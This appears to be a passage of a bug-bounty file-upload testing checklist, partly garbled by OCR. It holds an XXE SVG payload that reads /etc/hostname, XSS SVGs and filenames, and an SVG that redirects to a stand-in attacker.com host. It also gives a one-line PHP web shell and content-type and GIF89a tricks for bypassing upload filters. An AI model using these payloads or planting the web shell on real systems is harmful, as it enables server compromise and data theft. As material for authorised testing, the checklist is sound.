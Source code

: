         ```bash
        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1
        <text font-size="40" x="0" y="16">&xxe;</text>
        </svg>
        ```
        
        1. Upload excel file
        - [ ]  XSS
        1. Set file name `<svg onload=alert(document.comain)>`
        2. Upload using .`svg` file
        
        ```bash
        <?xml version="1.0" standalone="no"?>
        <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
        File Upload Checklist3<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
        <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
        <script type="text/javascript">
        alert("HolyBugx XSS");
        </script>
        </svg>
        ```
        
        - [ ]  Open Redirect
        1. Upload using .svg file
        
        ```bash
        	<code>
        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
        <svg
        onload="window.location='https://attacker.com'"
        xmlns="http://www.w3.org/2000/svg">
        <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
        </svg>
        </code>
        ```
        
    - Content-ish Bypass
        - [ ]  Content-type validation
        1. Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
        - [ ]  Content-Length validation
        1. Small PHP Shell
        
        ```bash
        (<?=`$_GET[x]`?>)
        ```
        
        - [ ]  Content Bypass Shell
        1. If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )
        
